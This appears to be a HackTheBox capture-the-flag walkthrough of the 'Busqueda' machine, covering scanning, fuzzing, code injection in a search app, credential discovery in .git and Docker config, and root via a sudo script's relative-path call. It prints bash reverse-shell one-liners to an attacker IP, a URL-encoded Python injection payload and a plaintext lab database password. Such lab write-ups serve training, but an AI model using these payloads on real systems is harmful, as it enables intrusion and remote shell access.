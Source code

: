```yaml
---
layout: post
title: "Busqueda"
date: 2025-07-26 15:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Linux, Git, Gitea, Docker]
author: klein
image: 
    path: /images/2025-07-26-Busqueda/image_01.png
---
```


This note-style walk-through will be conducted with no Guided mode, as that is currently not available for this box.

Let's start with enumeration. 
```bash
nmap -sCV -oN busqueda 10.129.228.217
```
```bash
tarting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 15:17 EDT
Nmap scan report for 10.129.228.217
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.01 seconds

```

As the Nmap scan shows, the website on port 80 is redirecting to http://searcher.htb. Let's add this to the hosts file.

```bash
vi /etc/hosts
```

Now, let's take a look at what is on port 80. 

*Another good idea would be, after adding the domain name to the hosts file, to rerun Nmap, because of DNS, there are additional scripts that Nmap runs in that case. For example, discovering additional directories, like .git.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722153255.png)

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722153626.png)

There is also a software version at the bottom of the web application. This could lead to compromise; however, there is an alternative path by doing fuzzing.

Let's create a web request with the application and catch it in Burp Proxy. Copy the request to a file and use it for fuzzing.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722154033.png)

Copy this to a file. I saved it as web.req.

```bash
ffuf -request web.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt
```

*Use -request-proto http, because the web application only accepts HTTP

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722154943.png)

We find that in some cases, it returns zero when the character is appended to the end of the username. 

Here =>

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155035.png)

By playing around with the request, we find an injection point for code execution:
![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155418.png)

There we go, this looks promising:

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722155649.png)

Let's create a reverse shell.

```bash
echo -n "bash -c 'bash -i  >& /dev/tcp/10.10.14.195/4444  0>&1'  "|base64
```

```bash
nc -nvlp 4444
```

As this is a totally doable way of landing on the box, I had to use a simpler approach.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164224.png)

```bash
'+%2b+__import__('os').popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.43/9000+0>%261"').read()+%2b+' 
```

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164239.png)

And with that, I got the user flag.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164536.png)

By looking around, we found a Gitea instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250722164911.png)

In the .git directory, I also found credentials, which are going to help with the login on the newly found web instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726042905.png)

Taking a look at the website, there is nothing that could be used to progress further with this user.
![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043207.png)

However, by using the newly found password and running the sudo -l command, we find a Python script that can be run with sudo privileges.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043313.png)

By playing around with the script, I was able to extract credentials from a running Docker instance.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726043901.png)

Making the output prettier, we can have a better look at the newly found credentials.

```bash
echo -n '{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}' | jq .
```

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726044213.png)

Alright, these credentials are going to be for the administrator user on the Gitea application. The account is going to list the script that we used to get the credentials from the Docker instance. By looking at the source code, we find a vulnerability in the code. This vulnerability executes a bash script that does not call the full path, meaning we can use this to our advantage.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726044827.png)

In a directory that I can write to, I created this file to get a reverse shell.

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045108.png)

![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045259.png)

And we get a shell as root:
![image](/images/2025-07-26-Busqueda/Pasted-image-20250726045318.png)